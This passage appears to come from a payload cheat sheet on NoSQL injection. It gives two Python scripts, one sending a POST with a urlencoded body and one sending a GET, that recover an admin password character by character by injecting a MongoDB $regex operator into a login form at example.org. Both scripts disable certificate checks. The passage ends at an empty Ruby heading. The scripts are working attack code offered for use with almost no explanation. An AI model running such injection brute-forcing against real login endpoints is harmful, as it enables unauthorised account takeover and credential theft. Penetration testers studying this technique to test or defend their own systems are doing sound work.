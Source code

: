### POST with urlencoded Body

Python script:

```python
import requests
import urllib3
import string
import urllib
urllib3.disable_warnings()

username="admin"
password=""
u="http://example.org/login"
headers={'content-type': 'application/x-www-form-urlencoded'}

while True:
    for c in string.printable:
        if c not in ['*','+','.','?','|','&','$']:
            payload='user=%s&pass[$regex]=^%s&remember=on' % (username, password + c)
            r = requests.post(u, data = payload, headers = headers, verify = False, allow_redirects = False)
            if r.status_code == 302 and r.headers['Location'] == '/dashboard':
                print("Found one more char : %s" % (password+c))
                password += c
```

### GET

Python script:

```python
import requests
import urllib3
import string
import urllib
urllib3.disable_warnings()

username='admin'
password=''
u='http://example.org/login'

while True:
  for c in string.printable:
    if c not in ['*','+','.','?','|', '#', '&', '$']:
      payload=f"?username={username}&password[$regex]=^{password + c}"
      r = requests.get(u + payload)
      if 'Yeah' in r.text:
        print(f"Found one more char : {password+c}")
        password += c
```

Ruby script:
